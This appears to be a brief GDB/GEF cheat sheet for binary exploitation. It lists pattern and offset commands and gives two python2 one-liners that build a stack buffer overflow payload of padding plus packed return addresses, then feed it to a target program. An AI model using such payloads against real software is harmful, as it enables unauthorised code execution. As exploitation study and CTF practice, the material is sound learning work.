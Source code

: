 Gdb/Gef
=======
{% highlight bash%}
pattern create 200          :Create cyclic patterm
pattern offset              :Get the offset based on the value off RSP/ESP
info functions              :List fonctions
break * 0x00                :Break at 0x00

#python2 -c 'import struct;print "A"*40 + struct.pack("Q",0x400883)+struct.pack("Q",0x601060)+struct.pack("Q",0x4005e0)' > input
#python2 -c 'from pwn import *;print("A" * 40 + p64(0x0400883) + p64(0x00601060) + p64(0x00400810))' > input

r < input                   :Injecting payload to input
{% endhighlight %}
Additional ressources:
- [gef.readthedocs.io][link1]
- [hugsy][link2]

<br/>
[Back to the top](#header)
